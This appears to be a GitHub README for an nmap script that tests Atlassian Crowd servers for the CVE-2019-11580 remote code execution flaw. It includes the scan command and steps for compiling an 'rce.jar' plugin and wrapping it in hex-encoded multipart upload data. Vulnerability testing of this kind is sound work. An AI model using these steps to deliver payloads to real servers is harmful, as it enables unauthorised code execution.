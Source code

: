 # CVE-2019-11580
## Atlassian Crowd and Crowd Data Center Remote Code Execution nmap script
Tests to see if a current installation of Atlassian Crowd or Crowd Data center is vulnerable to CVE-2019-11580. 

## Dependencies
* java (tested with openjdk version 11.0.14)
* python (tested with version 3.9.11)
* servlet-api (tested with version 3.1.0)
* nmap (tested with version 7.92)

## Run the script and see if you're vulnerable!
```
nmap -sV --script crowd-vuln-cve-2019-11580 -p 8095 --script-args "url=/" <target>
```
To compile a new plugin, see instructions below.

## Compile jar
```
javac -cp javax.servlet-api-3.1.0.jar com/cdl/plugin/exp.java
jar -cf rce.jar ./atlassian-plugin.xml ./com
```

## Convert jar to hex
E.g:
```
python convert_to_hex.py rce.jar
```
## Copy hex into plugin_hex string
The plugin hex needs to be inserted in the hex string, after the header and before the footer:

Header:
```
2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d6631356665383765393561370d0a436f6e74656e742d446973706f736974696f6e3a20666f726d2d646174613b206e616d653d2266696c655f63646c223b2066696c656e616d653d227263652e6a6172220d0a436f6e74656e742d547970653a206170706c69636174696f6e2f6f637465742d73747265616d0d0a0d0a
```
Which in ASCII is:
```
------------------------------f15fe87e95a7
Content-Disposition: form-data; name="file_cdl"; filename="rce.jar"
Content-Type: application/octet-stream
```

Footer:
```
0d0a2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d2d6631356665383765393561372d2d0d0a
```
Which in ASCII is:
```

------------------------------f15fe87e95a7--
```

## Acknowledgements
Script based on python example from jas502n https://github.com/jas502n/CVE-2019-11580
